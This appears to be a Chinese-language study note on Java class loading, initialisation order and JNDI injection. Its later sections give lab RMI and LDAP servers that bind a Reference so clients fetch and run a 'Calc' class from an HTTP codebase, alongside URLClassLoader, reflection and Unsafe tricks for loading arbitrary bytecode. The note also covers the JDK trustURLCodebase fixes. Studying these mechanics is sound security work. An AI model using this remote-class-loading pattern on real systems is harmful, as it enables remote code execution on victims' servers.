



# JNDI

https://tttang.com/archive/1405/#toc_0x04-deserialize

## Java类加载机制和对象创建过程

### 一、类加载

#### Javac原理

javac是用于将源码文件.java编译为对应的字节码文件.class。其步骤是：

```c
源码——>词法分析器组件（生成token流）——>语法分析器组件（语法树）——>语义分析器组件（注解语法树）——>代码生成器组件（字节码）。
```

#### 类加载过程

先在方法区找class信息，有的话直接调用，没有的话则使用类加载器加载到方法区（静态成员放在静态区，非静态成功放在非静态区），**静态代码块在类加载时自动执行代码（注：并不是所有的类加载都会静态代码块，因为类加载的种类有多种，这里需要看具体的加载方式）**，非静态的不执行；先父类后子类，先静态后非静态；静态方法和非静态方法都是被动调用，即不调用就不执行。

```java
ClassLoader cl = ClassLoader.getSystemClassLoader();
Class<?> c = cl.loadClass("classloader.T"); // 不会执行静态代码块
Class.forName("classloader.T", false, cl); // 不会执行静态代码块
Class<T> t = T.class; // 不会执行静态代码块
new T(); // 执行静态代码块
Class.forName("classloader.T"); // 执行静态代码块
```

类加载的流程如下图：


1、加载

- 通过类的全名限定获取定义此类的二进制字节流；
- 将字节流代表的静态存储结构转化为方法区运行时数据结构；
- 在内存（方法区）生成一个代表这个类的class对象，作为方法区这个类的各种数据访问入口；

加载和连接时交叉进行的，加载未完成可能连接已经开始了。

2、验证

检查class是否符合要求，非必须阶段，对程序的运行期没有影响，`-Xverif:none` 关闭（可以提高启动速度）

- 文件格式验证（魔数、常量类型）；
- 元数据验证（语义分析）；
- 字节码验证（语义合法）；
- 符号引用验证;

3、准备

正式为类变量（static成员变量）分配内存并设置类变量初始值（零值）的阶段，这个变量所使用的内存都将在方法区进行分配，这时候的内存分配仅包括类变量（静态变量），而不包括实例变量，实例变量将会在对象实例化时随着对象一起在堆中进行分配。

4、解析

虚拟机将常量池内的符号引用替换为直接引用的过程。

5、初始化

初始化阶段是执行类构造器`<clinit>()`方法的过程，虚拟机会保证一个类的类构造器`<clinit>()`在多线程环境中被正确的加锁，同步；如果多个线程同时初始化一个类，那么只会有一个线程区执行这个类的类构造器，其他线程阻塞等待，直到`<clinit>()`方法完毕，同一个类加载器，一个类只会被初始化一次。

### 二、类的初始化

#### 类实例化和初始化概念

**类实例化**：是指创建一个类的实例（对象）的过程，由类创建的对象，在构造一个实例时，需要在内存中开辟空间，即new Object()。

**类初始化**：是指类中各个类成员（被static修饰的成员变量）赋初始值的过程，是类生命周期中的一个阶段；即实例化基础上对对象赋初始值。

类初始化的时机

有且只有5种情况下必须立即对类进行初始化：

> 遇到**new、getstatic、putstaic、invokestatic**四条字节码指令，如果没有初始化则需要先进行初始化。
> 

> 注：数组类型初始化只会初始化数组类型本身，不会初始化相关类型，例如：new String[]，此时只会初始化String[]即Ljava.lang.String，但是不会触发初始化String。
> 

**常见场景：**

1、使用new关键字实例化对象。

2、读取或者设置一个类的静态字段（被final修饰，已在编译器把结果放在常量池的静态字段除外）的时候。

3、调用一个类的静态方法时。

- 使用java.lang.reflect进行反射调用，如果未初始化，触发初始化
- 初始化一个类时，若父类未初始化，则先触发父类初始化
- 虚拟机启动时，用户需要指定一个执行main方法的主类，虚拟机会先初始化这个类
- 如果一个java.lang.invoke.MethodHandle 实例最后的解析结果的REF-getstatic、REF-pubstatic、REF-invokestatic方法句柄，并且这个方法句柄所在对应的类没有进行初始化，则需要先触发其初始化

以上初始化称为主动引用，除此之外所有引用类的方式都不会触发初始，称为**被动引用**。

**被动引用案例**

- 通过子类引用父类的静态字段，不会导致子类的初始化。
- 通过数组定义来引用类，不会触发此类的初始化。
- 常量在编译阶段会存入调用类的常量池中，本质上并没有直接引用到定义常量的类，因此不会触发定义常量的初始化；例如：调用`public static final String CONSTANT="XXX"`。

#### Java对象创建的几种方式

> new、反射、克隆
> 
- new Object()，以new方式调用构造函数创建对象；
- 使用Class类的newInstance()方法（反射）；
- 使用Constructor类的newInstance()方法（反射）；
- 使用clone()方法创建对象（克隆）；
- 使用序列化|反序列化机制创造对象（深克隆）；

#### Java对象创建的过程

1. 在堆内存中开辟一块空间；
2. 给开辟的空间分配一个地址；
3. 对所有非静态成员加载到所开辟的空间；
4. 对非静态成员变量进行默认值初始化；
5. 调用构造函数；
6. 构造函数入栈执行时，先隐式三步（super()、初始化、构造代码块），再执行构造函数代码；
   
    > 构造函数和构造器的执行顺序：
    > 
    > 1. 父类的类构造器`<clinit>()`
    > 2. 子类的类构造器`<clinit>()`
    > 3. 父类的成员变量和实例代码块
    > 4. 父类的构造函数
    > 5. 子类的成员变量和实例代码块
    > 6. 子类的构造函数
7. 构造函数执行完弹出栈后，把空间分配的地址给引用对象；

核心步骤：**检查类释放被加载→为新生对象分配内存→初始化设定零值→必要的设置→执行`<init>`方法。**

**类构造器`<clinit>()`与实例构造器`<init>()`区别**：类构造器`<clinit>()`与实例构造器`<init>()`不同，它不需要显式调用，虚拟机自己保证子类`<clinit>()`之前 调用父类`<clinit>()`。在同一个类加载器下，一个类只会被初始化一次，但可以任意实例化对象；即：一个类生命周期中，类构造器最多会被虚拟机调用一次，而实例化构造器会被调用多次，只要还在创建对象。

#### Java对象实例初始化

涉及三种执行对象的初始化：

**实例变量初始化**：实例变量直接赋值。

**实例代码块初始化**：实例代码块赋值，编译器会将其中的代码放在类的构造函数中去，并且这些代码会被放在超类构造函数调用语句之后，构造函数本身代码之前；这也是为什么Java要求构造函数第一句必须是super();即超类的类构造函数的调用语句；Java要求实例化之前必须实例化其父类，以保证完整性。

**构造函数初始化**：

```java
public class A{
    private int i=2;//实例变量初始化
    {
        i++;//实例代码块初始化
    }
    public A(){}//构造函数初始化
}
```

### 三、总结

1、类加载与反序列化

类加载的时候会执行代码

初始化：静态代码块；

```java
// 静态代码块在类初始化的时候会被调用
// 所有的静态方法调用之前都会调用该静态代码块
static {
    System.out.println("静态代码块");
}

// 静态方法
public static void staticAction(){
    System.out.println("静态方法");
}
```

实例化：构造代码块、无参构造函数；

```java
// 所有的构造函数在执行之前都会调用该构造代码块，构造代码块与构造方法都是与对象相关的
{
    System.out.println("构造代码块");
}

public Person(){
    System.out.println("无参Person构造函数");
}

public Person(String name, int age) {
    System.out.println("有参Person构造函数");
    this.name = name;
    this.age = age;
}
```

2、动态类加载方法

Class.forName();  在Java底层也是使用的ClassLoader进行加载类的。

初始化

```java
// 使用Class.forName()进行类加载
Class c = Class.forName("classloader.Person"); // 类加载并且默认会进行类的初始化
```

不初始化

```java
// 自定义类加载器，默认不进行类加载
ClassLoader cl = ClassLoader.getSystemClassLoader();
Class<?> person = Class.forName("classloader.Person", false, cl); // 传递false限制初始化操作
person.newInstance(); // 正常实例化，这里会进行类的初始化操作
```

ClassLoader.loadClass不进行初始化，底层原理，实现加载任意的类。

```java
继承关系
ClassLoader -> SecureClassLoader -> URLClassLoader -> AppClassLoader/ExtClassLoader

loadClass() -> findClass(重写的方法) -> defineClass(从字节码加载类)
```


类加载比较重要的几个类：

```java
URLClassLoader.defineClass()	 任意类加载，支持的协议有：file,http,jar
ClassLoader.defineClass() 字节码加载任意类，但是为私有
Unsafe.defineClass() 字节码加载，这里虽然为public类，但是不能直接生成对象；在Spring里面可以直接生成
```

```java
// 支持file、http、jar协议
//file:///F:\Java_Project\java_vul1.8_065\jndi\src\main\java\tmp\tmp\
//http://localhost:10009/
//jar:file:///d:\\tmp\\classes\\Hello.jar!/    这里是固定格式
URLClassLoader c = new URLClassLoader(new URL[]{new URL("http://localhost:9999/")});
Class<?> h = c.loadClass("Calc");
h.newInstance();


// 反射的方式获取defineClass()
// 使用反射机制获取defineClass()
Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
defineClassMethod.setAccessible(true);
byte[] code = Files.readAllBytes(Paths.get("D:\\JNDI\\tmp\\Calc.class"));
Class c = (Class) defineClassMethod.invoke(cl, "Calc", code, 0, code.length);
c.newInstance();

 // 使用Unsafe获取defineClass()
Class c = Unsafe.class;
Field theUnsafeField = c.getDeclaredField("theUnsafe");
theUnsafeField.setAccessible(true);
Unsafe unsafe = (Unsafe) theUnsafeField.get(null);
Class u = unsafe.defineClass("Calc", code, 0, code.length, cl, null);
u.newInstance();
```


## 双亲委派机制



主要看这篇，https://www.cnblogs.com/hollischuang/p/14260801.html


## JNDI

官方教程：https://docs.oracle.com/javase/jndi/tutorial/

教程简介：https://docs.oracle.com/javase/tutorial/jndi/index.html

简介书：https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf


### RMI协议

JNDIRMIServer：

```java
import javax.naming.InitialContext;
import javax.naming.Reference;

public class JNDIRMIServer {
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        // 方式一：直接绑定一个远程对象，底层使用原生的RMI方法，可以使用远程RMI攻击点去攻击
//        initialContext.rebind("rmi://localhost:1099/remoteObj", new RMIServerImpl());

        // 方式二：引用的方式进行绑定，称为传统的JNDI注入
        // 从远程服务器上面加载一个指定类，并将其绑定到RMI注册中心里面
        Reference refObj = new Reference("Calc", "Calc", "http://localhost:8000/");
        initialContext.rebind("rmi://localhost:1099/remoteObj", refObj);
    }
}
```


JNDIRMIClient：

```java
import javax.naming.InitialContext;

public class JDNIRMIClient {
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        // 从RMI注册中心读取一个已经绑定的对象，由于这里指定的协议是rmi，所以调用的方式为rmi
        RMIServer rmiServer = (RMIServer) initialContext.lookup("rmi://localhost:1099/remoteObj");
        System.out.println(rmiServer.sayHello("hello"));
    }
}
```


Debug分析：




以上的漏洞在JDK141版本及之后的版本当中得到了相应的修复，代码如下：

```java
//RegistryContext#decodeObject()方法当中得到了相应的修复，主要是加入了trustURLCodebase参数，判断该加载的地址是否为可信地址，默认为false，即不可信。

private Object decodeObject(Remote var1, Name var2) throws NamingException {
    //code...
    if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
        throw new ConfigurationException("The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
    } else {
        return NamingManager.getObjectInstance(var3, var2, this, this.environment);
    }
    //code...
}
```


### LDAP

在JDK141的修复当中，实际上并没有对ldap协议进行修复，只是针对RMI与CORBA进行了修复，这两种修复的方式方法是一样的。


LDAP并不是jdk当中的服务，所以这里需要另外搭建。环境搭建：https://blog.csdn.net/liumiaocn/article/details/83991147


JNDILDAPServer：

```java
import javax.naming.InitialContext;
import javax.naming.Reference;

public class JNDILDAPServer {
    public static void main(String[] args) throws Exception{
        /*
         *  DC (Domain Component)
         *  CN (Common Name)
         *  OU (Organizational Unit)
         */
        InitialContext initialContext = new InitialContext();
        Reference refObj = new Reference("Calc", "Calc", "http://localhost:8000/");
        initialContext.rebind("ldap://127.0.0.1:10389/cn=test,dc=example,dc=com", refObj);
    }
}
```

JNDILDAPClient：

```java
import javax.naming.InitialContext;

public class JNDILDAPClient {
    public static void main(String[] args) throws Exception{
        InitialContext initialContext = new InitialContext();
        initialContext.lookup("ldap://127.0.0.1:10389/cn=test,dc=example,dc=com");
    }
}
```

Debug分析：



LDAP的这个漏洞在JDK后面的版本当中也进行了修复，主要是对本地类加载器的`helper.loadClass()`方法进行了修复，加入了一个trustURLCodebase变量来判断当前加载的codebase是不是有效的（默认为false）。

```java
public Class<?> loadClass(String className, String codebase)
    throws ClassNotFoundException, MalformedURLException {
    if ("true".equalsIgnoreCase(trustURLCodebase)) {
        ClassLoader parent = getContextClassLoader();
        ClassLoader cl =
            URLClassLoader.newInstance(getUrlArray(codebase), parent);

        return loadClass(className, cl);
    } else {
        return null;
    }
}

VersionHelper12.java

private static final String trustURLCodebase =
    AccessController.doPrivileged(
    new PrivilegedAction<String>() {
        public String run() {
            try {
                // 默认为false
                return System.getProperty(TRUST_URL_CODEBASE_PROPERTY,"false");
            } catch (SecurityException e) {
                return "false";
            }
        }
    }
);
```

